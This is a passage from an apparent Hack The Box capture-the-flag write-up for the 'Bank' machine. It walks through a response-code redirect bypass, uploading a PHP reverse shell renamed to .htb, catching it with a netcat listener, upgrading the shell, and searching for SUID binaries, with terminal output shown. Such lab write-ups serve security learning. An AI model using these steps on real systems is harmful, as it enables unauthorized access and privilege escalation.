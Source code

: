 ```html
    <script src="./assets/js/sweetalert.min.js"></script>
</body>
</html>
```
At this point before we forward the packet we need to change ```302``` to ```200``` so we can view the page. Also make a note of this ```<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] --> ```

Now let's use ```php-reverse-shell.php```. You can find it here ```/usr/share/webshells/php/php-reverse-shell.php``` or use ```locate``` to find it. Change the ip address to yours and also change the port if you want. After you finish this and save it run this ```mv php-reverse-shell.php php-reverse-shell.htb```. So it can be run as a php file.

make sure that you run the listener before oppening the page.
```
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
```
Open the page now and you should get your shell :)
```
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.29] 49464
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 19:57:38 up 23:05,  0 users,  load average: 29.05, 22.32, 17.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
First thing to do is to upgrade our shell you can do that by runing this command: ```python -c "import pty;pty.spawn('/bin/bash')" ```
So first let's look for suid binaries.
```
www-data@bank:/$ find / -perm -u=s 2>/dev/null
find / -perm -u=s 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
As we can see the only intresting one is ```/var/htb/bin/emergency```
